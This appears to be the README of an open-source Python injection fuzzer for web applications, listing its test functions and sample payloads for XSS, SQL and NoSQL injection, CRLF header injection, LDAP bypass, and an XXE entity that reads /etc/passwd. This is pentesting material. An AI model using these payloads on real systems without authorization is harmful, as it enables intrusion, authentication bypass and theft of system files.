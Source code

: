 # InjectFuzzingTool

This tool is a Python-based script designed for testing various injection vulnerabilities in web applications. It includes modules for testing XSS, SQL injection, NoSQL injection, OS command injection, CRLF injection, LDAP injection, XPath injection, XSLT injection, XXE vulnerabilities, and more.

## Features
- **Cross-Site Scripting (XSS)**
- **SQL Injection**
- **NoSQL Injection**
- **OS Command Injection**
- **HTTP Header Injection**
- **LDAP Injection**
- **CRLF Injection**
- **Unicode Injection**
- **XPath Injection**
- **XSLT Injection**
- **XML External Entity (XXE) Injection**

## Requirements
- Python 3.x
- Libraries:
  - `requests`
  - `json`
  - `ldap3`
  - `lxml`

Install the required dependencies using:
```bash
pip install requests ldap3 lxml
```
And, in XXE_checker, external entity references is turned off at first,so Please change from false to true

## Usage
Run the script with the target URL as an argument:
```bash
python fuzzing.py <URL>
```

### Example
```bash
python fuzzing.py https://example.com
```

## Payloads
This tool uses predefined payloads for various injection types. Below are some examples:

### XSS Payloads
```html
<script>alert('XSS');</script>
<img src=x onerror=alert('XSS')>
```

### SQL Injection Payloads
```sql
' OR '1'='1
1' UNION SELECT NULL, NULL--
```

### NoSQL Injection Payloads
```json
{ "username": { "$ne": "" } }
{ "username": "admin", "password": { "$ne": "" } }
```

### CRLF Injection Payloads
```text
%0d%0aSet-Cookie: admin=true
%0d%0aContent-Length: 0%0d%0aInjected-Header: test
```

### LDAP Injection Payloads
```ldap
*)(&(objectClass=*))
*)|(&(objectCategory=person)(objectClass=user))
```

### Unicode Injection Payloads
```text
%u0027
%u003Cscript%u003Ealert(1)%u003C/script%u003E
```

### XXE Payload
```xml
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<foo>&xxe;</foo>
```

## Functions

### `fuzz(url, params=None, payloads=None)`
Tests a given URL with payloads to detect general vulnerabilities.

### `test_nosql_injection(url)`
Tests for NoSQL injection vulnerabilities using JSON payloads.

### `test_csti(url)`
Tests for Server-Side Template Injection (CSTI).

### `test_header_injection(url, headers)`
Tests HTTP header injection by modifying headers with payloads.

### `test_ldap_injection(server, base_dn)`
Tests LDAP injection vulnerabilities.

### `test_json_injection(url, base_data)`
Tests JSON injection vulnerabilities by modifying JSON request bodies.

### `test_crlf_injection(url, param)`
Tests CRLF injection vulnerabilities by appending payloads to query parameters.

### `test_unicode_injection(url, param)`
Tests Unicode-based injection vulnerabilities.

### `scrape_xml(target_url)`
Fetches and parses XML data from the target URL.

### `test_xpath_injection(xml_data)`
Tests XPath injection vulnerabilities using XPath payloads.

### `test_xslt_injection(xml_data)`
Tests XSLT injection vulnerabilities using crafted XSLT payloads.

### `test_xxe(xml_data)`
Tests XXE vulnerabilities by processing XML with external entity references.

## Notes
- Ensure you have proper authorization before testing a target system.
- Use responsibly and only for ethical penetration testing.

## License
This tool is open-source and available under the MIT License. Feel free to use and modify it for your testing needs.

